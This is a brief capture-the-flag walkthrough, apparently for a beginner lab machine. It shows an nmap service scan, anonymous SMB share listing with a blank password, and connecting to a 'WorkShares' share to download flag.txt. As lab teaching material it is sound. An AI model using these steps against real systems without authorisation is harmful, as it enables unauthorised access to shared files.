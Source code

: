 1. Scan all the ports and determine service and version of open ports
```bash
nmap -sV [ip machine]
```
--> port 445/tcp - open - microsoft-ds?


2. List the files stored on the share
```bash
smbclient -L [ip machine]
	Password: [blank]
```
-->   ADMIN$ - Disk - Remote Admin /
        C$ - Disk - Default share / 
        IPC$ - IPC - Remote IPC / 
        **WorkShares - Disk**      


3. Connect to the machine via "smb"
```bash
smbclient \\\\[ip machine]\\Workshares
	Password: [blank]
```
--> **MACHINE PWNED!**


4. Move inside the machine and Capture the flag
```bash
smb: \> ls
	Amy.J
	James.P

smb: \> cd James.P

smb: \James.P\> ls
	flag.txt

smb: \James.P\> get flag.txt
```
--> Transfer completed!